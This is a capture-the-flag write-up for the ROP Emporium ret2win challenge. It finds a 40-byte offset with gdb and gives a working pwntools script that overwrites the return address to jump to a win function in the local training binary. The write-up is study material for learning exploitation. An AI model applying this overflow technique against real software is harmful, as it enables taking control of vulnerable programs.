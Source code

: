 To find the offset, we can take the value which RSP was overwritten with, and look for the pattern offset.

gdb tells us the offset is at 40. This means that our RIP address starts at 40 and we can overwrite it by adding an additional 8 bytes after offset of 40 bytes.

```python
gdb-peda$ x/wx $rsp
0x7fffffffdfa8:	0x41304141
gdb-peda$ pattern offset 0x41304141
1093681473 found at offset: 40
```

We can get a solver using pwntools. 

```python
wayell@ubuntu:~/Desktop/ROPEmporium/1.ret2win$ python3 solve2.py
[*] '/home/wayell/Desktop/ROPEmporium/1.ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/wayell/Desktop/ROPEmporium/1.ret2win/ret2win': pid 2798
/home/wayell/.local/lib/python3.8/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
 [*] Process '/home/wayell/Desktop/ROPEmporium/1.ret2win/ret2win' stopped with exit code 0 (pid 2798)
Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```

**This portion is done after initially completing to fill up gaps**

Solvers are changed from initial ones, since it did not print the flag although it jumped to the correct function

Solver 1 (using attach process, hardcoded address for ret)

```python
from pwn import *

# Pwntools attach to binary
elf = context.binary = ELF('ret2win')
p = process()

# Number of padding bytes (to offset RIP)
padding = 40

# Crafting payload, contains x nops of padding, ret, hardcoded address
payload = flat(
	asm('nop') * padding,
	next(elf.search(asm('ret'))),
	p64(0x400756),
)

# Writing payload to file on same directory
f = open("payload", "wb")
f.write(payload)

# Send payload after asked for input
p.sendlineafter(">", payload)

p.interactive()
```
